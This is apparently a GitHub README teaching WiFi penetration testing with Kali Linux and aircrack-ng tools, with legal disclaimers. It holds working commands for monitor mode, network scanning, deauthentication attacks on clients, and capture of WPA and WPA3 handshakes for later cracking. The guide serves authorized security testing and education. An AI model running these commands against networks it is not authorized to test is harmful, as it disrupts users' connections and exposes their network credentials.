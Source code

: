 # WiFi Security Testing Guide

This repository contains documentation for educational WiFi security testing using Kali Linux. This guide is strictly for **educational purposes** and authorized security testing only.

> **⚠️ IMPORTANT:** Unauthorized network penetration is illegal in most jurisdictions. Always obtain proper written authorization before performing any security testing. Use these techniques only on networks you own or have explicit permission to test.

## Prerequisites

- Kali Linux (2023.1 or newer)
- Compatible wireless adapter with monitor mode support
- Basic understanding of networking concepts
- Legal authorization to test the target network

## Setup and Discovery

### Check Network Interfaces

First, identify your wireless interfaces:

```bash
# Show all network interfaces
ip a

# Alternative for network interface details
iw dev
```

### Manage Wireless Services

Before starting, ensure no conflicting services are running:

```bash
# Stop potentially interfering services
sudo systemctl stop NetworkManager
sudo systemctl stop wpa_supplicant

# To restore normal networking after testing
# sudo systemctl start NetworkManager
# sudo systemctl start wpa_supplicant
```

## Monitor Mode and Network Discovery

### Enable Monitor Mode

Using Airmon-ng (traditional method):

```bash
# Kill processes that might interfere
sudo airmon-ng check kill

# Start monitor mode
sudo airmon-ng start <interface>
```

Using iw (modern alternative):

```bash
# Set interface down
sudo ip link set <interface> down

# Enable monitor mode
sudo iw <interface> set monitor control

# Bring interface back up
sudo ip link set <interface> up
```

### Scan for WiFi Networks

```bash
# Basic scan for nearby networks
sudo airodump-ng <monitor_interface>

# For a more modern approach with extended information
sudo airodump-ng <monitor_interface> --band abg --wps --manufacturer
```

### Target Network Analysis

To focus on a specific network and collect more detailed information:

```bash
# Focus on specific network and save capture
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <capture_filename> <monitor_interface>
```

## Client Discovery and Traffic Analysis

### Identify Connected Clients

```bash
# Shows devices connected to the selected WiFi network
sudo airodump-ng --channel <channel> --bssid <BSSID> <monitor_interface>
```

### Packet Capture and Analysis

```bash
# Capture traffic in pcap format for later analysis
sudo airodump-ng --channel <channel> --bssid <BSSID> --output-format pcap --write <filename> <monitor_interface>

# Analyze captured packets
wireshark <filename>-01.cap
```

## Security Testing Techniques

### Client Deauthentication Test

This technique tests how a network handles disconnection events:

```bash
# Broadcast deauthentication (all clients)
sudo aireplay-ng --deauth <num_packets> -a <AP_BSSID> <monitor_interface>

# Targeted deauthentication (specific client)
sudo aireplay-ng --deauth <num_packets> -a <AP_BSSID> -c <client_MAC> <monitor_interface>
```

### WPA Handshake Capture

Capturing the WPA handshake for security analysis:

```bash
# Start capturing on the target network
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <handshake_file> <monitor_interface>

# In another terminal, send deauth to force reconnection and capture handshake
sudo aireplay-ng --deauth 1 -a <BSSID> <monitor_interface>
```

### Modern WPA3 Security Testing

```bash
# Check if target network supports WPA3
sudo airodump-ng <monitor_interface> | grep -i WPA3

# Attempt to capture SAE handshakes
sudo hcxdumptool -i <interface> -o <output_file>.pcapng --enable_status=1
```

## Advanced Analysis Tools

### WiFi Signal Quality Testing

```bash
# Install Wavemon (if not already installed)
sudo apt update && sudo apt install wavemon

# Run signal monitoring tool
wavemon
```

### Network Profile Analysis

```bash
# Install Kismet (if not already installed)
sudo apt update && sudo apt install kismet

# Run Kismet server
sudo kismet -c <interface>
```

## Cleanup

Always properly disable monitor mode and restore normal functioning when finished:

```bash
# Using airmon-ng
sudo airmon-ng stop <monitor_interface>

# Manual alternative
sudo ip link set <interface> down
sudo iw <interface> set type managed
sudo ip link set <interface> up

# Restart network services
sudo systemctl start NetworkManager
sudo systemctl start wpa_supplicant
```

## Additional Security Considerations

- **MAC Address Randomization**: Modern devices use MAC randomization to enhance privacy. This can affect client tracking.
- **Enterprise Security**: WPA/WPA2/WPA3-Enterprise environments require different testing approaches.
- **IoT Devices**: Consider the presence of IoT devices which may have unique security characteristics.

## Legal and Ethical Reminders

- Obtain written permission before any testing
- Document scope and methods of testing
- Report findings responsibly to network owners
- Never attempt to access or exfiltrate data
- Follow responsible disclosure procedures for any vulnerabilities identified

## Further Learning Resources

- [NIST SP 800-153](https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-153.pdf) - Guidelines for Securing Wireless Local Area Networks
- [Aircrack-ng Documentation](https://www.aircrack-ng.org/documentation.html)
- [Kali Linux Wireless Penetration Testing](https://www.kali.org/docs/tutorials/)
- [WiFi Security Best Practices](https://csrc.nist.gov/publications/detail/sp/800-97/final)

---

This guide is maintained for educational purposes only. Contributors are not responsible for misuse of the information provided.
